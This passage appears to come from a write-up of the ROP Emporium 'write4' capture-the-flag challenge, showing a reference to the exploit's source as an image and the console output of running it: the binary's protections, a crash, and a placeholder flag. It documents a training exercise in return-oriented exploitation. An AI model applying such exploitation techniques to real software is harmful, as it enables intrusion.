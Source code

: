 With that out of the way, it's time for profit.

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/4-write4/write4'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process './write4': pid 61452
[+] Receiving all data: Done (44B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 61452)
Thank you!
ROPE{a_placeholder_32byte_flag!}
```
